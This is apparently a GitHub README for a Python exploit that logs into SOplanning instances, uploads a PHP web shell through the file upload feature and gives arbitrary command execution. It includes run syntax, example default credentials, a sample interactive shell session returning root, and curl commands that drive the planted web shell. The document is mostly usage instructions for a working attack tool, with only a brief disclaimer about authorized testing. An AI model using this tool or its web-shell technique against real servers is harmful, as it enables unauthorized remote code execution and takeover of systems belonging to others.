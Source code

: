 # SOplanning Remote Code Execution Exploit

This script exploits a remote code execution vulnerability in the SOplanning project management tool by uploading a malicious PHP web shell via the file upload functionality. Once the exploit is successful, it provides an option for an interactive shell for further exploitation.

## Features
- **Login and Session Management**: Automatically logs into SOplanning using provided credentials.
- **PHP Web Shell Upload**: Uploads a PHP shell to the server via file upload.
- **Command Execution**: Allows executing arbitrary shell commands via the uploaded web shell.
- **Interactive Shell**: Provides an interactive command execution interface after successful upload.

## Requirements
- Python 3.x
- `requests` library: Install via `pip install requests`

## Usage

### Syntax

```bash
python3 exploit.py -t <target-url> -u <username> -p <password>
```

### Arguments

- `-t` or `--target`: Target URL, including the port if needed (e.g., `http://example.com:8080`).
- `-u` or `--username`: Username to authenticate to the SOplanning instance.
- `-p` or `--password`: Password for the given username.

### Example

```bash
python3 exploit.py -t http://example.com:9090 -u admin -p admin
```

This will:
1. Log into the target SOplanning instance.
2. Upload the PHP web shell to the server.
3. Output the location of the web shell for further exploitation.

### Interactive Shell

After a successful exploit, you will be prompted to enter an interactive shell. If you choose "yes", you can run commands directly on the remote server from your terminal.

Example prompt after upload:
```bash
[+] Uploaded ===> Success message
[+] Exploit completed.
Access webshell here: http://example.com/upload/files/abcd123/xyz.php?cmd=<command>
Do you want an interactive shell? (yes/no) yes
soplaning:~$ whoami
root
soplaning:~$
```

### Manually Accessing the Web Shell

If you prefer not to use the interactive shell, you can directly access the web shell in your browser or via `curl` at the given URL:
```bash
http://<target-url>/upload/files/<link-id>/<php-filename>.php?cmd=<your-command>
```

### Example of Manual Usage:

```bash
curl "http://example.com/upload/files/abcd123/xyz.php?cmd=id"
```

## Important Notes

- Use this script only for ethical purposes, such as penetration testing or security research with proper authorization.
- The author is not responsible for any misuse of this script.

## License

This script is provided for educational purposes only. It is licensed under the MIT License.
